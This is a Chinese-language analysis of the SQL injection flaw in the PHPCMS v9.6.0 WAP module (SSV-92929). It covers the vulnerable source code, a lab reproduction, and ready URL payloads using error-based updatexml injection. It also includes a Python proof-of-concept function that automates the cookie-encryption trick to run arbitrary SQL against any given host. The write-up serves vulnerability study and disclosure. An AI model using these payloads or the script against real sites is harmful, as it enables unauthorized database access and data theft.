



# PHPCMS_V9.6 WAP模块SQL注入漏洞分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞编号： SSV-92929
* 漏洞简述： phpcms v9.6.0 sys_auth在解密参数后未进行适当校验造成sql injection。
* 影响版本： phpcms v9.6.0
* 触发函数： init函数

## 2.&emsp;漏洞分析 ##

### 2.1&emsp;漏洞介绍 ###

&emsp;&emsp;phpcms是国内相对用的较多的cms之一。具体的漏洞触发点在phpcms\modules\content\down.php文件init函数中，代码如下:

	public function init() {
	    $a_k = trim($_GET['a_k']);//获取a_k参数
	    if(!isset($a_k)) showmessage(L('illegal_parameters'));
	    $a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));//使用sys_auth加密并传入DECODE及system.php文件中的auth_key
	    if(empty($a_k)) showmessage(L('illegal_parameters'));
	    unset($i,$m,$f);
	    parse_str($a_k);//将解密后的字符串解析到变量
	    if(isset($i)) $i = $id = intval($i);
	    if(!isset($m)) showmessage(L('illegal_parameters'));
	    if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
	    if(empty($f)) showmessage(L('url_invalid'));
	    $allow_visitor = 1;
	    $MODEL = getcache('model','commons');
	    $tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
	    $this->db->table_name = $tablename.'_data';
	    $rs = $this->db->get_one(array('id'=>$id));    //id传入sql查询语句
	    ......部分代码省略....
	    ......

代码通过GET获取'a_k'值，并调用sys_auth函数进行解密，这里传入了'DECODE'参数以及配置文件caches\configs\system.php文件中的auth_key字段。所以可以知道这里是使用了auth_key并进行解密操作。具体可以查看phpcms\libs\functions\global.func.php第384行sys_auth函数的定义。

在对a_k解密后使用parse_str将字符串解析到变量并解码。如下代码，输出的id为:'union select

	<?php 
	$test='id=%27union%20select';
	parse_str($test);
	echo $id;
	?>

最后在第26行处代码处(down.php)将id传入sql查询语句。

### 2.2&emsp;漏洞环境搭建 ###

**我的环境在Ubuntu中复现**

1. 安装Ubuntu虚拟机
2. 安装PHP环境（Apache+php+mysql）
3. 下载phpcms v9.6.0源码进行安装
4. 通过后台管理员密码进行登录，配置开启WAP模块
5. 配置完成，访问`http://192.168.119.131/phpcms/install_package/index.php?m=wap&c=index&a=init&siteid=1`进行查看，wap是否开启

### 2.3&emsp;漏洞验证 ###

1. 访问`http://192.168.119.131/phpcms/install_package/index.php?m=wap&c=index&a=init&siteid=1`获取cookie。

2. 把这个cookie的值复制下来以POST传入userid_flash变量访问`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28select%20flag%20from%20flag%3B%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`，该URL通过url解码后是`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id=%*27 and updatexml(1,concat(1,(select flag from flag;)),1)#&m=1&f=haha&modelid=2&catid=7&`其中`select flag from flag;`可以换成任一SQL注入语句。通过该cookie获取att_json。

3. 上一步我们已经获取到了通过json在通过cookie加密的SQL了因为他返回的cookie就是已经加密的SQLPayload现在我们传入到a_k变量，访问`http://192.168.119.131/phpcms/install_package/index.php?m=content&c=down&a_k=8532s3x_Spdkw0xiFxEcKyivtW4Sh8zyDV07Yyl2MOds0nULY-wjT9y3RLa4P-Fj7FBzUkhIct0DRpcIE1bwI6pklJAazBejhJIqRJF3hxaYB6S2e_ogokZOsiXYHulCW6-_yhFYziGpsy9H0dW93f7ZeU5VYf-Y-OILu22tlk3pUThLDLUnXyUVvZh8pc9YXmjGHMz4NeE`查看返回结果：

可以看到SQL语句执行成功并将结果返回在页面中。

4. SQL语句回显出结果，证明漏洞验证成功。

## 3.&emsp;漏洞原理分析 ##

### 3.1&emsp;源代码分析 ###

1. 首先我们看phpcms/modules/attachment/attachments.php中的swfupload_json函数：

		/**
		 * 设置swfupload上传的json格式cookie
		 */
		public function swfupload_json() {
			$arr['aid'] = intval($_GET['aid']);
			$arr['src'] = safe_replace(trim($_GET['src']));
			$arr['filename'] = urlencode(safe_replace($_GET['filename']));
			$json_str = json_encode($arr);
			$att_arr_exist = param::get_cookie('att_json');
			$att_arr_exist_tmp = explode('||', $att_arr_exist);
			if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
				return true;
			} else {
				$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
				param::set_cookie('att_json',$json_str);
				return true;			
			}
		}
2. 这里用safe_repalce过滤输入，跟进这个函数：

		function safe_replace($string) {
		    $string = str_replace('%20','',$string);
		    $string = str_replace('%27','',$string);
		    $string = str_replace('%2527','',$string);
		    $string = str_replace('*','',$string);
		    $string = str_replace('"','"',$string);
		    $string = str_replace("'",'',$string);
		    $string = str_replace('"','',$string);
		    $string = str_replace(';','',$string);
		    $string = str_replace('<','<',$string);
		    $string = str_replace('>','>',$string);
		    $string = str_replace("{",'',$string);
		    $string = str_replace('}','',$string);
		    $string = str_replace('\\','',$string);
		    return $string;
		}
3. 函数将敏感字符替换为空，但问题是只执行一次，所以当输入是**`%*27`**时**`*`**被过滤，进而可以得到**`%27`**。

4. 回到**swfupload_json**中，**safe_replace**处理后，程序使用**json_encode**+ **set_cookie**生成加密的 Cookie。也就是说利用**swfupload_json**我们可以构造一个含有**`%27`**等 payload 的加密值。不过执行**swfupload_json**需要一点条件，我们看构造函数：

		class attachments {
			private $att_db;
			function __construct() {
				pc_base::load_app_func('global');
				$this->upload_url = pc_base::load_config('system','upload_url');
				$this->upload_path = pc_base::load_config('system','upload_path');		
				$this->imgext = array('jpg','gif','png','bmp','jpeg');
				$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
				$this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
				$this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
				//判断是否登录
				if(empty($this->userid)){
					showmessage(L('please_login','','member'));
				}
			}
			......部分代码省略....
		    ......
5. 如果**$this->userid**不为空我们才可以继续执行。**$this->userid**和 **sys_auth($_POST['userid_flash'], 'DECODE'）**的值有关，并且程序并没有检查**$this->userid**的有效性，所以只要传入的**userid_flash**是个合法的加密值就可以通过检测进而使用**swfupload_json**了。那么如何获取一个合法加密值呢？这就来到了phpcms/modules/wap/index.php中：

		class index {
			function __construct() {		
				$this->db = pc_base::load_model('content_model');
				$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
				param::set_cookie('siteid',$this->siteid);	
				$this->wap_site = getcache('wap_site','wap');
				$this->types = getcache('wap_type','wap');
				$this->wap = $this->wap_site[$this->siteid];
				define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
				if($this->wap['status']!=1) exit(L('wap_close_status'));
			}
			......部分代码省略....
		    ......
6. 在 wap 模块的构造函数中程序根据siteid生成了一个加密 Cookie，生成的值我们是可以通过响应头获取到的。至此，我们可以通过以下两个步骤获得一个含有 payload 的加密值：
	1. 访问 wap 模块得到一个普通的加密 Cookie
	2. 将上面得到的加密 Cookie 作为**userid_flash**的值，带上 payload 访问**swfupload_json**
	3. **注**：这两步也是上文中漏洞验证的第一第二步操作。

7. 得到含有 payload 的加密值之后，我们继续找哪里可以用到这个值。 我们看phpcms/modules/content/down.php：

		public function init() {
		    $a_k = trim($_GET['a_k']);//获取a_k参数
		    if(!isset($a_k)) showmessage(L('illegal_parameters'));
		    $a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));//使用sys_auth加密并传入DECODE及system.php文件中的auth_key
		    if(empty($a_k)) showmessage(L('illegal_parameters'));
		    unset($i,$m,$f);
		    parse_str($a_k);//将解密后的字符串解析到变量
		    if(isset($i)) $i = $id = intval($i);
		    if(!isset($m)) showmessage(L('illegal_parameters'));
		    if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		    if(empty($f)) showmessage(L('url_invalid'));
		    $allow_visitor = 1;
		    $MODEL = getcache('model','commons');
		    $tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		    $this->db->table_name = $tablename.'_data';
		    $rs = $this->db->get_one(array('id'=>$id));    //id传入sql查询语句
		    ......部分代码省略....
		    ......
8. 这里用sys_auth解密输入的a_k，然后使用parse_str处理a_k，该函数的作用简单来说就是以&分隔符，解析并注册变量。通过 IDE 的提示我们可以看到在静态的情况下$id是未初始化的，所以我们可以通过parse_str注册$id进而将可控数据带入查询，另外parse_str可以进行 URL 解码，所以之前我们得到的%27也就被解码成了真正可以利用的'。

**总结**

所以整个攻击流程如下：

1. 通过 wap 模块构造含有 payload 的加密值
2. 将加密值作为a_k的值访问down.php的init函数

### 3.2&emsp;漏洞利用 ###

&emsp;&emsp;漏洞点上面已经说了，要利用这个漏洞，首先得对payload进行加密操作，在本地得话auth_key得值是可以知道的，但问题是肯定不通用。仔细想下，程序中有解密的方法，那肯定有相应的加密方法，所以只要在程序中找到调用加密方法并能获取到结果的接口。那便可通用检测所有存在漏洞的站点了，当然这里也要想办法让注入的payload能够不被过滤进入到这个接口，这也可以说是另一个漏洞点了。

基于这个思路，就可以在程序工程中全文搜索sys_auth传入ENCODE的方法，不过通过网上的POC可以看到其作者已经给出了这个ENCODE地方，可以看出漏洞发现者也是非常细心，必须赞下。

在phpcms\libs\classes\param.class.php文件第86行，函数set_cookie：

	public static function set_cookie($var, $value = '', $time = 0) {
	        $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
	        $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
	        $var = pc_base::load_config('system','cookie_pre').$var;//获取system.php文件中cookie_pre值作为cookies字段key的前缀
	        $_COOKIE[$var] = $value;
	        if (is_array($value)) {
	            foreach($value as $k=>$v) {
	                setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
	            }
	        } else {
	            setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);//调用setcookie函数加密数据
	        }
	    }

从代码中可以看到这里在调用setcookie时调用了sys_auth函数，且传入的时ENCODE加密参数。而sys_auth函数定义中可以了解到，其默认使用的key既是system.php文件中的auth_key。这里即可实现对payload进行加密的目的。

到这里就剩下如何把payload完好无损的传入了，这里也是这个漏洞利用另一个让人觉得很巧妙的地方。在phpcms\modules\attachment\attachments.php文件第239行swfupload_json函数的实现中：

	public function swfupload_json() {
	        $arr['aid'] = intval($_GET['aid']);
	        $arr['src'] = safe_replace(trim($_GET['src']));//获取src变量并调用safe_replace处理
	        $arr['filename'] = urlencode(safe_replace($_GET['filename']));
	        $json_str = json_encode($arr);//json_encode编码处理
	        $att_arr_exist = param::get_cookie('att_json');
	        $att_arr_exist_tmp = explode('||', $att_arr_exist);
	        if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
	            return true;
	        } else {
	            $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
	            param::set_cookie('att_json',$json_str);//将编码后的数据设置为cookie的值
	            return true;            
	        }
	    }

首先这里调用了set_cookie函数，att_json作为cookies字段的key的一部分，在set_cookie函数中可以看到其与system.php文件中的cookie_pre拼接作为cookies的key，将src、aid、filename等参数json编码后设置成cookie的值。src参数传入后只经过safe_replace函数的处理,上文也给出了safe_replace函数的定义。

作为安全过滤函数，safe_replace对%20、%27、%2527等都进行了替换删除操作。同样对等也进行了替换删除处理。这样如果传入`%*27`经过处理后即只剩下%27.这样就可以对sql注入的payload进行适当的处理即可传入程序进入set_cookie函数，从而进行加密操作。

## 4.&emsp;简析利用POC ##

**主要函数代码如下：**

	def sqli(host):
	    try:
	        url1 = '{}/index.php?m=wap&c=index&a=init&siteid=1'.format(host)
	        s = requests.Session()
	        req = s.get(url1)
	        flag = raw_input("Input your SQL Injection:")
	        flag = urllib.quote(flag)
	        url2 = '{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28{}%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26'.format(
	                host, flag)
	        cookies = requests.utils.dict_from_cookiejar(s.cookies)['svyko_siteid']
	        data = {"userid_flash": cookies}
	        r = s.post(url=url2, data=data)
	        a_k = r.headers['Set-Cookie'][61:]
	        url3 = '{}/index.php?m=content&c=down&a_k={}'.format(host, a_k)
	        if re.search(check_response, str(s.get(url3).content)) is not None:
	            print re.search(check_response, str(s.get(url3).content)).group()
	    except:
	        print 'requests error.'
	        pass

该函数主要实现三步：

1. 通过传入参数host构造第一个url：` url1 = '{}/index.php?m=wap&c=index&a=init&siteid=1'.format(host)`，发送get请求，获取cookie。
2. 通过手动输入自己的SQL注入语句构造url2：

		flag = raw_input("Input your SQL Injection:")
        flag = urllib.quote(flag)
        url2 = '{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28{}%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26'.format(
                host, flag)
并且把url1中获取的cookie在url2构造post请求中以data参数形式进行传参。
3. 把url2中获取的set-cookie参数值作为url3中`url3 = '{}/index.php?m=content&c=down&a_k={}'.format(host, a_k)`a_k的参数值进行输入得到回显，获取sql注入返回结果。

## 5.&emsp;参考资料 ##

* [phpcms v9.6.0 wap模块 SQL注入分析](https://xianzhi.aliyun.com/forum/mobile/read/1491.html "https://xianzhi.aliyun.com/forum/mobile/read/1491.html")
* [PHPCMS v9.6.0 wap模块 SQL注入](http://paper.seebug.org/275/ "http://paper.seebug.org/275/")
* [PHPCMS v9 wap模块 SQL注入](https://www.seebug.org/vuldb/ssvid-92929 "https://www.seebug.org/vuldb/ssvid-92929")